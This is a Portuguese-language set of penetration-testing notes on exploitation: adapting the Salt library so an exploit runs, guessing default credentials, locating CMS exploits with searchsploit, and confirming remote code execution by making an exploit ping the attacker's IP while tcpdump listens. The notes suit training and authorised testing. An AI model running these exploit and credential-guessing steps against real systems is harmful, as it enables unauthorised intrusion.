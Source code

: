 ## Exploitation

### Python Compatibility Issues in Exploits

Alguns exploits requerem bibliotecas específicas que podem ter problemas de compatibilidade com versões mais recentes do Python. No caso de exploits que utilizam a biblioteca **Salt**, por exemplo, ajustes podem ser necessários para garantir que tudo funcione corretamente.

#### Exemplo de Solução

```
# Criar um ambiente virtual para isolar a versão do Python
python3 -m venv env
. ./env/bin/activate

# Instalar dependências necessárias para o exploit
pip install distro salt

# Corrigir incompatibilidades na biblioteca Salt com Python 3.8+
sed -i 's/from platform import _supported_dists//' ./env/lib/python3.8/site-packages/salt/grains/core.py
sed -i 's/_supported_dists +=/_supported_dists =/' ./env/lib/python3.8/site-packages/salt/grains/core.py
```

Essas adaptações são para garantir a compatibilidade da biblioteca Salt com Python 3.8, o que permite que o exploit funcione corretamente no ambiente configurado.

### Default Credential Guessing

```bash
# Teste de credenciais padrão comuns (exemplo: admin:admin, root:root) para acessar painéis de administração e outros serviços.
# Essa etapa é fundamental pois muitos sistemas mantêm credenciais padrão, que representam uma vulnerabilidade crítica.
```

**Nota**: Tentar credenciais padrão é uma abordagem inicial essencial, pois muitos sistemas ainda utilizam configurações padrão, oferecendo acesso administrativo sem autenticação personalizada.


### Exploração de CMS (Content Management Systems)

Ao encontrar um CMS, é importante identificar a versão exata da aplicação, pois muitos CMS populares possuem vulnerabilidades publicamente conhecidas que podem ser exploradas. Seguem os passos recomendados:

1. **Identificar a Versão do CMS**: Busque a versão nas páginas de login, rodapé, ou nos arquivos de configuração acessíveis. Conhecer a versão é essencial para direcionar a pesquisa de exploits.

2. **Pesquisa de Exploits Públicos**: Utilize ferramentas como `searchsploit` para buscar exploits específicos para essa versão.
   ```bash
   # Atualiza o banco de dados do searchsploit
   searchsploit -u

   # Exemplo de busca e cópia de um exploit
   searshsploit Joomla 
   searchsploit -m <exploit_id>
   ```

3. **Verificar Necessidade de Autenticação**: Muitos exploits de CMS são autenticados, ou seja, requerem login para serem utilizados. Verifique se é necessário credenciais válidas antes de iniciar o exploit.

4. **Exploração Comum (RCE, File Upload Bypass, SQLi)**: CMS frequentemente possuem vulnerabilidades de execução remota de código (RCE), bypass no upload de arquivos, e injeção SQL (SQLi), que permitem controle sobre o sistema.

**Nota**: A exploração de CMS é uma etapa crítica em pentests, pois muitas vezes esses sistemas contêm dados sensíveis e controles administrativos. Use exploits com cautela, sempre verificando os requisitos e condições para a execução.

---

## Teste de RCE com Ping

### Passo 1: Executar o Exploit com Comando Ping
Execute o exploit com um comando `ping` apontando para o IP da sua máquina de ataque:

```
python3 exploit.py -c 'ping -c1 <IP_da_máquina_de_ataque>' -t <URL_do_alvo>
```

> Exemplo: `python3 exploit.py -c 'ping -c1 192.168.145.128' -t http://192.168.145.160/grav-admin`

### Passo 2: Capturar o Tráfego com tcpdump
Na máquina de ataque, use `tcpdump` para monitorar pacotes ICMP e verificar se o ping chega:

```
tcpdump -i <interface> icmp
```

> Exemplo: `tcpdump -i tun0 icmp`

### Resultado Esperado
Se o exploit funcionar, você verá pacotes `ICMP echo request` e `echo reply` no tcpdump, confirmando a execução do comando `ping` no alvo.

**Resumindo:**
1. **Exploit**: `python3 exploit.py -c 'ping -c1 <IP_atacante>' -t <URL_alvo>`
2. **Monitorar**: `tcpdump -i <interface> icmp`
3. **Confirmação**: Pacotes ICMP indicam sucesso do RCE.
